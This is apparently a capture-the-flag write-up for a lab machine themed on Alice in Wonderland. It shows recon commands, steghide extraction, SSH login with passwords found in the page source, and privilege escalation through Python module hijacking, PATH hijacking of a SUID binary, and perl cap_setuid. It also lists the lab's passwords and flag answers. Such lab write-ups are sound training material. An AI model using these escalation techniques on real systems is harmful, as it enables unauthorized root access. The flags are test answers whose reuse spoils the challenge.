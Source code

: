 # Obtain the flag in user.txt

`nmap -sS -Pn -p- -T4 -vv 10.10.139.249`

We see that port 80 and 22 are open

`obuster dir --url 10.10.139.249 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

The website has a whiterabbit picture, some text.  No `/robots.txt`, `security.txt`, or anything in the source.
Looking at the image with steghide
```
└─$ steghide --info white_rabbit_1.jpg 
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

```
steghide --extract -sf white_rabbit_1.jpg    
Enter passphrase: 
wrote extracted data to "hint.txt".
cat hint.txt              
follow the r a b b i t
```

Gobuster is still running, however we have some results:

`/poem` is a poem about the Jabberwocky, (no source)

`/r` returns `Keep Going. "Would you tell me, please, which way I ought to go from here?"`
`/r/a` returns `Keep Going. "That depends a good deal on where you want to get to," said the Cat.`
`/r/a/b/b/i/t/` returns a PNG file, some text, but in the source is an interesting line `<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`

Try this combination for SSH it lets us in.

I can't see the user.txt, root.txt is there but we have no read permissions, and a `py` script we have read, but no write to


checked `env`, `/ect/crontab/`
`sudo -l` indicates we can run python the .py file.

Attempts to run it elevated failed.  Getcap shows perl but we don't have execute permission.
No SUID files allowing for privesc.

`cat /root/user.txt`
Answer: `thm{"Curiouser and curiouser!"}`

# Escalate your privileges, what is the flag in root.txt?

create a file in `~` called random.py with the following:
```python
import os

os.system("/bin/bash")
```

`chmod +x random.py`

When the walrus.py is run it will import random.py instead of the system random and execute our code.

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

We are now running as rabbit
Looking in the `/home/rabbit` we have a `teaParty` executable with SUID bit set.

Executing
```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Fri, 03 Nov 2023 07:15:32 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Entering anything causes a `Segmentation fault (core dumped)` error

Downloading the file via scp
`scp teaParty user@attacker:/home/user/`
and open in Ghidra, in the Decompile window we see the code:
```C
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

We can sere that there is no input and the `date` command is not referenced, which means it runs from the `$PATH` environment variable.

`export PATH=/tmp:$PATH` to add `/tmp` to path.
Create `/tmp/date` containing
```bash
#!/bin/bash
/bin/bash
```
`chmod +x /tmp/date`
Execute `./teaParty` and we get a shell
`whoami` reveals we are `hatter`

Look in `/home/hatter/password.txt`
`WhyIsARavenLikeAWritingDesk?`

Use SSH to logon to target as hatter for full shell.

Running `getcap -r / 2>/dev/null` we find that `/usr/bin/perl` has `cap_setuid+ep` is owned by root

`/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`
gives us a shell as.
```bash
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

```bash
# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

Answer: `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`